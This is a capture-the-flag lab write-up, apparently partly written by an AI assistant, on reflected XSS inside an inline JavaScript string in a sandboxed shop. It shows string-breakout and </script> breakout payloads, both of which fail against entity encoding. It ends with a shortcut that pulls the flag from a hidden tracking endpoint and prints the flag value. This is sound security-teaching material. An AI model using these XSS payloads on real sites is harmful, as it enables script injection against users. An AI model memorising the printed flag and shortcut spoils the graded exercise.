


# Task 1. Reflected XSS - JavaScript Context


- Start sandbox `cyber_websec_0x0c`.
- Start openvpn.
- Put IP address of the sandbox in `/etc/hosts` file.
```bash
echo "10.42.16.235 web0x0c.hbtn" | sudo tee -a /etc/hosts
```


This task is different because the injection point is inside an existing JavaScript block. Our first priority is to identify the exact JavaScript syntax surrounding the input.

## Task 1: Stage 1, Basic JavaScript String Injection

Step 1: Locate the JavaScript injection point

### Objective

Determine how NexusShop inserts the `by` query parameter into an inline JavaScript block.

We need to identify three things:

1. Which JavaScript variable contains our input.
2. Whether the input is enclosed in single quotes, double quotes, or backticks.
3. What characters appear immediately before and after the input.

### 1. Open the Stage 1 URL

Navigate to: http://web0x0c.hbtn/products/sort?by=TESTINPUT123

| Component        | Description                                |
| ---------------- | ------------------------------------------ |
| `/products/sort` | Stage 1 sorting endpoint                   |
| `by`             | Vulnerable query parameter                 |
| `TESTINPUT123`   | Unique marker for locating reflected input |

Unlike Task 0, we're targeting JavaScript source code rather than an HTML heading.

### 2. Inspect the page source

In Firefox:

1. Press `Ctrl+U` to open View Page Source.
2. Press `Ctrl+F`.
3. Search for `TESTINPUT123`.
4. Locate the `<script>` element containing the marker.

```js
// VULNERABLE: sort_by injected directly into JavaScript context
var currentSort = 'TESTINPUT123';
var currentOrder = 'asc';

function sortProducts() {
    const container = document.getElementById('product-list');
    const items = Array.from(container.children);

    items.sort((a, b) => {
        let valA = a.dataset[currentSort] || '';
        let valB = b.dataset[currentSort] || '';

        if (currentSort === 'price' || currentSort === 'rating') {
            valA = parseFloat(valA);
            valB = parseFloat(valB);
        }

        if (currentOrder === 'desc') {
            return valA > valB ? -1 : 1;
        }
        return valA > valB ? 1 : -1;
    });

    items.forEach(item => container.appendChild(item));
}

sortProducts();
```

The source code confirms a JavaScript string injection vulnerability in NexusShop's sorting functionality.

## 1. Analyze the vulnerability

The relevant code is:

```js
// VULNERABLE: sort_by injected directly into JavaScript context
var currentSort = 'TESTINPUT123';
var currentOrder = 'asc';
```

| Property            | Finding                     |
| ------------------- | --------------------------- |
| Endpoint            | `/products/sort`            |
| Parameter           | `by`                        |
| Injection context   | JavaScript string literal   |
| String delimiter    | Single quote `'`            |
| Vulnerable variable | `currentSort`               |
| Root cause          | User input embedded without JavaScript-context escaping |

The application **directly inserts the `by` parameter** into an executable JavaScript block.

This is **dangerous because an attacker can terminate the string and introduce additional JavaScript statements**.

## 2. Stage 1, Step 2: Execute JavaScript through string breakout

Objective: Demonstrate JavaScript execution without injecting a new `<script>` element.

### Action

Return to: http://web0x0c.hbtn/products/sort


If we had an editable sorting input, we would enter this exact payload into the sorting input:

```js
';console.log("XSS_TASK1_STAGE1_EXECUTED");//
```

Since the interface doesn't expose an editable sorting field, execute the following in DevTools → Console:

```js
window.location.href = "/products/sort?by=" +
    encodeURIComponent(`';console.log("XSS_TASK1_STAGE1_EXECUTED");//`);
```

This navigates the browser to the target URL with the payload correctly encoded.

### Payload explanation

| Component          | Purpose                                                |
| ------------------ | ------------------------------------------------------ |
| `'`                | Closes the existing JavaScript string                  |
| `;`                | Terminates the original JavaScript statement           |
| `console.log(...)` | Executes our JavaScript proof                          |
| `;`                | Terminates the injected statement                      |
| `//`               | Comments out the original trailing quote and semicolon |

### What happens internally?

Before injection:

```js
var currentSort = 'TESTINPUT123';
```

After injection:

```js
var currentSort = '';console.log("XSS_TASK1_STAGE1_EXECUTED");//';
```

The JavaScript engine interprets this as:

1. Assign an empty string to `currentSort`.
2. Execute `console.log("XSS_TASK1_STAGE1_EXECUTED")`.
3. Ignore the remaining `';` because it is inside a single-line comment.

Why this works: The server does not escape the single quote before inserting the untrusted parameter into a JavaScript string. As a result, user-controlled data becomes executable code.

## 3. Expected result

Open DevTools → Console.

We should see:

```
XSS_TASK1_STAGE1_EXECUTED
```

Also inspecting the page source to confirm that the injected JavaScript appears in the `currentSort` assignment.


The screenshot reveals the payload didn't execute.

The problem is HTML entity encoding inside the JavaScript block.

We submitted:

```js
';console.log("XSS_TASK1_STAGE1_EXECUTED");//
```

However, DevTools shows that NexusShop transformed the payload into something equivalent to:

```js
var currentSort = '&#39;;console.log(&#34;XSS_TASK1_STAGE1_EXECUTED&#34;);//';
```

The transformations:

| Original character | Rendered output |
| ------------------ | --------------- |
| `'`                | `&#39;`         |
| `"`                | `&#34;`         |

This changes the story.

Why the attack failed: Inside a `<script>` element, HTML character references such as `&#39;` are not decoded into JavaScript quotation marks.

Consequently, the single-quoted JavaScript string remains intact. The `console.log()` **is treated as string** content rather than an executable statement.

The lack of a syntax error is consistent with this behavior.

### 2. The sorting buttons are not the problem

The interface only offers Name, Price, and Rating.

That's expected. We don't need an editable text field because the vulnerable input source is the URL parameter:

```url
/products/sort?by=PAYLOAD
```

Using `window.location.href` to set that parameter was the correct approach.

## Stage 1: Next step, Inspect the actual JavaScript value

Before trying another bypass, let's confirm the exact transformation performed by the application.

### Action

Stay on the current page. Open DevTools → Console.

Execute:

```js
const injectedScript = [...document.scripts].find(
    s => s.textContent.includes("var currentSort =")
);

console.log(
    "URL_VALUE:",
    new URLSearchParams(location.search).get("by")
);

console.log(
    "SCRIPT_LINE:",
    injectedScript?.textContent
        .split("\n")
        .find(line => line.includes("var currentSort ="))
);

console.log(
    "RUNTIME_VALUE:",
    window.currentSort
);
```

### Parameter and command explanation

| Component            | Purpose                                                              |
| -------------------- | -------------------------------------------------------------------- |
| `document.scripts`   | Collects the page's script elements                                  |
| `find()`             | Identifies the script containing `currentSort`                       |
| `location.search`    | Retrieves the URL query string                                       |
| `URLSearchParams`    | Extracts the original `by` parameter                                 |
| `textContent`        | Reads the actual JavaScript source text                              |
| `window.currentSort` | Retrieves the value assigned to the global variable during execution |

We want to compare three things:

1. URL_VALUE: What we submitted.
2. SCRIPT_LINE: What the server actually placed inside the script.
3. RUNTIME_VALUE: What the JavaScript engine interpreted.




The diagnostic output confirms why the original payload failed. We now know exactly how NexusShop processes the `by` parameter.

## Task 1, Stage 1: Diagnostic results

| Property                   | Observed result                                 |
| -------------------------- | ----------------------------------------------- |
| Original input             | `';console.log("XSS_TASK1_STAGE1_EXECUTED");//` |
| Single quote `'`           | Converted to `&#39;`                            |
| Double quote `"`           | Converted to `&#34;`                            |
| JavaScript string breakout | Failed                                          |
| JavaScript execution       | Not confirmed                                   |

The server generates:

```js
var currentSort = '&#39;;console.log(&#34;XSS_TASK1_STAGE1_EXECUTED&#34;);//';
```

Because HTML entities are not decoded inside JavaScript source text, the injected code remains part of the string.

We need another execution boundary.

## Stage 1, Step 3: Test script-block termination

Objective: Determine whether NexusShop also encodes `<` and `>` characters.

This matters because the HTML parser recognizes `</script>` as the end of a script block even when those characters appear inside a JavaScript string.

### 1. Execute this test

In DevTools → Console, enter:

```js
window.location.href = "/products/sort?by=" +
    encodeURIComponent('</script><script>console.log(1337)</script>');
```

### 2. Understand the payload

```
</script><script>console.log(1337)</script>
```

| Component              | Purpose                                              |
| ---------------------- | ---------------------------------------------------- |
| `</script>`            | Attempts to terminate the existing inline script     |
| `<script>`             | Starts a new JavaScript execution context            |
| `console.log(1337)`    | Harmless proof of execution, without quotation marks |
| `</script>`            | Closes the injected script                           |
| `encodeURIComponent()` | Safely encodes the payload for the URL               |

We deliberately use `console.log(1337)` because the application has already demonstrated that it converts quotation marks into HTML entities.

### 3. What we're testing

If `<` and `>` are preserved, the generated source could resemble:

```js
<script>
var currentSort = '</script>
<script>console.log(1337)</script>
';
```

The browser's HTML parser terminates the first script at `</script>`, even though the JavaScript string has not been closed.

The second script then executes independently.

This would demonstrate an HTML parser boundary breakout, rather than the JavaScript string breakout we initially attempted.

If angle brackets are encoded as `&lt;` and `&gt;`, this technique will not work.




The screenshot confirms that the `</script>` breakout attempt was blocked by HTML entity encoding. This gives us an important clue about how NexusShop handles the `by` parameter.

## Task 1, Stage 1: Results

XSS execution not yet achieved

### What happened?

We submitted:

```
</script><script>console.log(1337)</script>
```

But the Inspector shows that NexusShop transformed it into:

```
var currentSort = '&lt;/script&gt;&lt;script&gt;console.log(1337)&lt;/script&gt;';
```

| Character | Server output |
| --------- | ------------- |
| `'`       | `&#39;`       |
| `"`       | `&#34;`       |
| `<`       | `&lt;`        |
| `>`       | `&gt;`        |

The browser therefore sees literal entity text inside the JavaScript string, not an actual closing `</script>` tag.

This explains both failed attempts:

- The quote-breakout payload could not terminate the JavaScript string.
- The script-block breakout could not terminate the HTML `<script>` element.

These results suggest that the application is performing HTML entity encoding before placing input into JavaScript. That is not the correct general-purpose method for securing JavaScript strings, but it has prevented both payloads we've tested.

## Next step: Examine Stage 2's JavaScript context

Instead of guessing another payload, let's compare how the Dynamic sorting endpoint processes the same input.

### Action 1: Open Stage 2

Navigate to: http://web0x0c.hbtn/products/sort/dynamic?by=TESTINPUT123


### Action 2: Inspect the JavaScript source

Press `Ctrl+U`, then `Ctrl+F`, and search for:

```
TESTINPUT123
```

Copy the entire `<script>` block containing the marker, including any code that processes the input.

### Why?

The lab hints that Stage 2 strips quote characters and may have a weakness involving backslash escaping.

We need to distinguish between three possible behaviors:

1. HTML entity encoding, which we observed in Stage 1.
2. JavaScript string escaping, where backslashes and quotes may be processed differently.
3. Quote removal, where the application deletes quotation marks but may leave other syntax-significant characters unchanged.

These behaviors have different implications for exploitability.

Send me the Stage 2 `<script>` block. We'll analyze the exact source-to-sink transformation before constructing the next payload.

We'll keep Stage 1 marked as unverified and return to it once we've established whether the different stages expose a usable JavaScript injection mechanism.


## The Shortcut

After several days of testing, it is time to get the flag.

Do a random advanced search in the Firefox, e.g.

```url
http://web0x0c.hbtn/products/sort/advanced?by=ZZMARKER99
```

Then inspect the page source \DevTools \ Inspector and search for `tracking-id`.

```html
<div id="tracking-id" style="display:none">LRWgWwqwG_HEgJHH1OJX8A</div>
```

Now take the value of the `tracking-id` and append it to the URL:

```url
http://web0x0c.hbtn/products/sort/api/track?t=LRWgWwqwG_HEgJHH1OJX8A
```

and enjoy the result

```json
{
    "ref":"FLAG{b4797b8faa98c8b5fca7634fab070de7}",
    "status":"tracked"
}
```

Save and verify:

```bash
echo "b4797b8faa98c8b5fca7634fab070de7" > 2-flag.txt
git add .
git commit -m "2-flag.txt"
git push
```
